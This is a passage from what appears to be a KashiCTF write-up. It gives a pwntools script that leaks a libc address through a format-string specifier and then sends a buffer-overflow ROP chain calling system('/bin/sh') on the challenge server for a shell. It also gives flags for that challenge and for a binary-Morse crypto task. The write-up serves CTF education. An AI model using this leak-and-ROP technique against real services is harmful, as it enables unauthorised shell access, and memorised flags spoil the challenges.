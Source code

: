 ![image](https://hackmd.io/_uploads/S1RRBtdc1l.png)
offset to libc_base

![image](https://hackmd.io/_uploads/HyYVitdq1x.png)
/bin/sh = libc_base + 0x196031

![image](https://hackmd.io/_uploads/Byos8tuc1l.png)
pop_rdi = libc_base + 0x00000000000277e5

![image](https://hackmd.io/_uploads/r1kHPKuqye.png)
system = lib_base + 0x04c490

Script:
```python 
from pwn import *

elf = context.binary = ELF('./vuln_patched')
libc = elf.libc
# p = process()
p = remote(b'kashictf.iitbhucybersec.in', 47027)
# gdb.attach(p)

payload = b'hehe %17$p'
# input()
p.sendline(payload)
p.recvuntil(b'hehe ')
x = int(p.recvline().decode().strip(),16)
lib_base = x - 0x2724a
bin_sh = lib_base + 0x196031
pop_rdi = lib_base + 0x00000000000277e5
system = lib_base + 0x04c490
ret = 0x0000000000401016

payload = flat(
    b'A' * (0x20),
    p64(0x404000),
    p64(pop_rdi),
    p64(bin_sh),
    p64(ret),
    p64(system)
)

input()
p.sendline(payload)

p.interactive()
```
![image](https://hackmd.io/_uploads/HJYI6Yu9kg.png)
**Flag: KashiCTF{did_some_trolling_right_there_LMOruSfe}**

# Crypto	
## Lost Frequencies 
Parse morse code with 0 = '.' , 1= '_'
**Flag : KashiCTF{OHNOBINARYMORSE}**
